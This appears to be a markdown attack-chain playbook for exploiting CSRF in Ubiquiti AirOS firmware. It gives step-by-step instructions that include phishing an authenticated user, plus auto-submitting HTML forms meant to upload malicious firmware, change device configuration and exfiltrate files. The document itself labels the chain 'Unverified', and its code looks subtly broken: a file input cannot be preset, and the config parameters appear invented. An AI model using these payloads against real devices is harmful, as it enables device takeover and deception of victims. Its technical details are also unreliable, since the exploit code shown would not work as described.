

# CSRF Exploitation in AirOS Firmware for Arbitrary Firmware Uploads and Configuration Changes

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF in Ubiquiti AirMax AirOS firmware v6.2.0 and prior.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for hosting malicious page
- Access to a web server to host the CSRF PoC

### Target Environment

- AirOS firmware v6.2.0 or prior on TI, XW, XM boards
- Web interface exposed (typically HTTP/HTTPS on port 80/443)
- Authenticated user session

### Initial Access Requirements

- Social engineering to trick user into visiting malicious site while authenticated
- No direct network access to target needed; relies on victim's browser

## Detailed Attack Procedures

### Step 1: Ensure Victim Authentication
procedure: [[procedures/Exploit-CSFR-in-AirOS-Firmware]]

**Objective**: Confirm the victim is authenticated to the AirOS web interface to enable session hijacking via CSRF.

**Instructions**: Use social engineering (e.g., phishing email) to direct the victim to the legitimate AirOS login page. Once logged in, proceed to host the malicious page.

**Expected Output**: Victim's browser maintains active session cookies for AirOS endpoints.

**Success Indicators**:
- Victim confirms login via communication
- No logout observed

### Step 2: Host Malicious CSRF Page
procedure: [[procedures/Exploit-CSFR-in-AirOS-Firmware]]

**Objective**: Serve a webpage that automatically submits forged requests to vulnerable AirOS endpoints.

**Instructions**: Create and host an HTML page with forms targeting endpoints like firmware upload or config change. For example, use a simple HTML form that auto-submits on load:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="http://target-airOS-ip/upload.cgi" method="POST" enctype="multipart/form-data">
  <input type="file" name="firmware" value="malicious.bin" />
  <input type="submit" value="Click to Upgrade" />
</form>
<script>
document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Trick the victim into visiting this page while authenticated.

**Expected Output**: Browser automatically submits the form using victim's cookies.

**Success Indicators**:
- Form submission observed in browser dev tools
- No CSRF token prompt from target

### Step 3: Execute Impactful Actions
procedure: [[procedures/Exploit-CSFR-in-AirOS-Firmware]]

**Objective**: Perform unauthorized actions like firmware upload or file exfiltration via chained CSRF requests.

**Instructions**: Extend the malicious page to include multiple forms for different endpoints, e.g., one for config modification:

```html
<form action="http://target-airOS-ip/config.cgi" method="POST">
  <input type="hidden" name="admin_mode" value="1" />
  <input type="hidden" name="cfg_change" value="disable_security" />
  <input type="submit" />
</form>
```

For exfiltration, forge a download request to sensitive files.

**Expected Output**: Target applies changes or serves files without user intent; verify via follow-up access.

**Success Indicators**:
- Config changes visible on target
- Malicious firmware installed or files exfiltrated

## Attack Chain Summary

### Key Achievements

1. Tricked authenticated user into executing forged requests
2. Achieved arbitrary firmware upload and config modification
3. Enabled potential exfiltration of sensitive files and tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T12:00:00Z*
